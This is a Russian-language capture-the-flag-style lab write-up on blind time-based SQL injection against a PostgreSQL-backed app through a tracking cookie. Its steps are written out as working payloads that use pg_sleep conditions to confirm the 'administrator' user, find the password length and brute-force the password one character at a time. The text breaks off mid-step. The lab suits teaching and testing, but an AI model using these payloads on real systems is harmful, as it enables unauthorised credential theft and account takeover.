


# Лабораторная работа: Слепая SQL-инъекция с задержками по времени и извлечением информации.

В этой лабораторной работе обнаружена уязвимость слепой SQL-инъекции. Приложение использует отслеживающий cookie-файл для аналитики и выполняет SQL-запрос, содержащий значение отправленного cookie-файла.

Результаты SQL-запроса не возвращаются, и приложение не реагирует по-разному в зависимости от того, возвращает ли запрос строки или вызывает ошибку. Однако, поскольку запрос выполняется синхронно, можно запускать условные задержки по времени для получения дополнительной информации.

В базе данных есть другая таблица с названием users, со столбцами usernameи password. Вам необходимо использовать уязвимость слепой SQL-инъекции, чтобы узнать пароль пользователя administrator.

Для решения лабораторной работы войдите в систему под учетной записью administrator пользователя.

**Ход работы:**
1) Определяем БД
2) Проверить существует ли пользователь `administrator` в БД
3) Брутфорс пароля

В предыдущей лабораторной работе мы научились определять БД:

```sql
Cookie: TrackingId=XJiQEzhDY6BBK3sr' || (SELECT pg_sleep(10))--
```

Это синтаксис **PostgreSQL**

Далее будем спрашивать у приложения, существует ли таблица пользователей (True/False), имеет ли она пользователя `administrator` (True/False).

```sql
Cookie: TrackingId=XJiQEzhDY6BBK3sr' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
```
Спрашиваем:
```sql
Cookie: TrackingId=XJiQEzhDY6BBK3sr' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM USERS)--
```
Была выполнена задержка в 10 секунд, следовательно пользователь существует!

Определяем длину пароля:

```sql
Cookie: TrackingId=XJiQEzhDY6BBK3sr' || (SELECT CASE WHEN (username='administrator') AND LENGTH(password)>20 THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM USERS)--
```

Определяем сам пароль:
```sql
Cookie: TrackingId=XJiQEzhDY6BBK3sr' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM USERS)--

В рамках брутфорса необходимо создать настройку:



Для того, чтобы у нас не было множество ложных ответов = 5 секундам.


